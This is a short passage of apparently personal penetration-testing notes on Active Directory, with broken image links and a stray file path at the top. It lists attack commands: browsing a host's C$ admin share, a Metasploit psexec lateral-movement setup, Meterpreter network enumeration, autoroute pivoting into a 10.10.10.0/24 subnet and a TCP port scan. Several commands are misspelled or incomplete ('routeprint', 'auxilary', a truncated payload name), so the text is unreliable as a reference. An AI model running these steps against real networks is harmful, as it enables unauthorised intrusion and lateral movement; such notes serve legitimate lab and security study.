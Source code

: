     dir \\thepunisher\c$
    ```
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%2012.png)
    
- Pivoting
    
    ![Untitled](Active%20Directory%20621d0cabc91648de8dd02f0cd69d1b4d/Untitled%2013.png)
    
    ```bash
    metasploit
    use windows/smb/psexec
    set payload windows/x86
    set target 2
    
    Meterpreter
    shell 
    routeprint
    ipconfig
    arp -a
    ctrl+z
    run autoroute -s 10.10.10.0/24
    run autoroute -p
    background
    search portscan 
    use auxilary/scanner/portscan/tcp
    set rhosts
    set ports 
    run
    